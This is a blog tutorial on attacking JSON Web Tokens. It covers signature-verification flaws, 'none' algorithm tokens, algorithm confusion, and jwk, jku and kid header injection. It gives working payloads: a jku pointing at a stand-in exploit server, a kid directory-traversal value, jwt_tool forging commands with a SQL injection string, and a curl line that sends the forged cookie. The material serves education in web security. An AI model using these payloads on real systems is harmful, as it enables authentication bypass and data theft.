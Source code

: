 ```yaml
---
layout: blog
title:  "Attacking JSON Web Tokens"
date:   2023-09-02T13:22
categories: ['Web-Exploitation']
---
```


![](/assets/images/headers/JWT.png)

Incorrect handling of JSON Web Tokens (JWTs) can leave a website vulnerable to a variety of attacks. To understand these attacks we first have to know what a JWT token is.

## What is a JSON Web Token?
JSON Web Tokens are widely used for authentication, session management, and access control purposes in web applications. It is a compact and self-contained way to securely transmit data ("claims") between server and client as a JSON object. These tokens can be signed using a secret or a public/private key pair. A typical JWT token consists of 3 main parts:
- **Header**: contains algorithm and type
- **Payload**: contains user information
- **Signature**: validates the above portions with a secret key or public/private key pair. Without knowing the server's secret signing key, it should be impossible to generate the correct signature for a given header or payload.

All of these parts are separated by a dot character and base64 encoded, as show in the following example:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYnl0ZWJsMzNkIiwic3ViIjoiYnl0ZSIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNTE2MjM5MDIyfQ.Ovvl3b1UnC1oNYAfBSIVfcoH2b3PtBJJ1iUbehvcZr4
```

## Attacking JWT Tokens
JWT vulnerabilities typically arise due to flawed JWT handling within an application, meaning that the signature of the token is not properly verified. Even if the signature is correctly verified, the trust relies heavily on the security of the secret key.

### Improper signature verification
If the server does not properly verify the signature, anyone is able to make arbitrary changes to the content of the token. For example, suppose the JWT contains the following claims:
```json
{
    "username": "bytebl33d",
    "isAdmin": false
}
```
If the server identifies the session based on the username, modifying its value might enable an attacker to impersonate other logged-in users. Similarly, if the `isAdmin` value is used for access control, this could provide a simple vector for privilege escalation.

### Accepting tokens with no signature
The JWT header contains an `alg` parameter telling the server which algorithm was used to sign the token. This means that it also tells which algorithm to use when verifying the signature.
```json
{
    "alg": "RS256",
    "typ": "JWT"
}
```
JWTs can be signed using a range of different algorithms, but can also be left unsigned. In this case, the `alg` parameter can be set to `none`, which indicates a so-called "unsecured JWT".

### Algorithm confusion attacks
Algorithm confusion attacks (also known as key confusion attacks) occur when an attacker is able to force the server to verify the signature of a JSON web token using a different algorithm than is intended by the website's developers. This vulnerability typically arises because of a flawed implementation of the token verification. Many libraries make use of a generic method to verify the token that rely on the alg parameter in the JWT header.
```js
token = request.getCookie("session");
verify(token, publicKey);
```
Some of the signing algorithms, such as HS256, use a "symmetric" key which is a single key to both sign and verify the token. Using a flawed verification process like above enables an attacker to sign the token using HS256 and the public key, where the server will use that same public key to verify the signature.
The public key can look something like this:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY
ktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi
XuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg
jIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH
+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx
V8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr
0wIDAQAB
-----END PUBLIC KEY-----
```
This means we can make our own JWTs with a forged signature created using the public key and the HS256 algorithm to bypass the authentication completely. Since the JWT was already signed using the public key, the signature verification by the application is successful leading to a successful key confusion attack.

!!!info Note
In cases where the public key isn't readily available, you may still be able to test for algorithm confusion by deriving the key from a pair of existing JWTs. This process is relatively simple using tools such as [jwt_forgery.py](https://github.com/silentsignal/rsa_sign2n/tree/release/standalone).
!!!

### JWT header parameter injection
Although only the `alg` parameter is mandatory, in practice the header often contain other parameters:
- `jwk` : JSON Web Key (can sometimes be exposed on standard endpoints such as `/.well-know/jswks.json`)
- `jku` : JSON Web Key Set URL for servers to fetch a set of trusted keys
- `kid` : Key ID that servers can use to identify the correct key in cases where there are multiple keys to choose from

#### JWK parameter injection
Ideally, servers should only use a limited whitelist of public keys to verify JWT signatures. However, misconfigurations often lead use to use any key that's embedded in the jwk parameter. This makes it possible to sign a modified JWT using your own RSA private key, and then embedding the matching public key in the `jwk` header. You can see an example of this in the following JWT header:
```json
{
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
    }
}
```

#### JKU parameter injection
The `jku` parameter points to an endpoint where JWKs are stored used to verify the signature. This can also be changed by an attacker to point to there own generated set of keys.
```json
{
    "alg": "RS256",
    "typ": "JWT",
    "jku":"https://exploit-server.com/key.json" 
}
```
Example content of the `key.json` file:
```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw"
        }
    ]
}
```

#### KID parameter injection
The `kid` parameter has no concrete structure and can be vulnerable to directory traversal if misconfigured:
```json
{
    "kid": "../../../../dev/null",
    "typ": "JWT",
    "alg": "HS256",
}
```
Of course you can make the parameter point to any file, but the `/dev/null` file that is present in Linux systems returns an empty string. This will sign the token with an empty string and results in a valid signature.

## JSON Web Token Toolkit
The [jwt_tool.py](https://github.com/ticarpi/jwt_tool) is a very useful toolkit for validating, forging, scanning and tampering with JSON Web Tokens. It can test for a variety of known exploits such as the RS/HS256 public key mismatch vulnerability discussed in this article. Let's look at an example that leverages the key confusion attack on a JWT token when we have access to the public key. The `-X k` flag can be used for the key confusion attack.

```console
$ python3 jwt_tool.py <JWT_TOKEN> -X k -pk public.pem
```

Using this tool we can even inject SQL queries in certain payload fields that we are interested in. We can do this using the `-I` flag, specifying the claim `-pc` and value `-pv` of the payload to tamper. In this example we are changing the current username to be 'admin'.

```console
$ python3 jwt_tool.py <JWT_TOKEN> -I -pc username -pv "admin" -X k -pk key.pem
```

### SQL Injection Payloads
If certain functions on the web application are vulnerable to SQL injection, we can even modify the JWT token to include an injection payload of our choice.
```console
$ python3 jwt_tool.py <JWT_TOKEN> -I -pc username -pv "' AND 1 = 0 UNION ALL SELECT 1,group_concat(sql),3 FROM sqlite_master--" -X k -pk public.pem
```
We can then use the newly generated fake token and set it as our session cookie:
```console
$ curl http://<Host>:<PORT>/ -b 'session=<FAKE-TOKEN>'
```

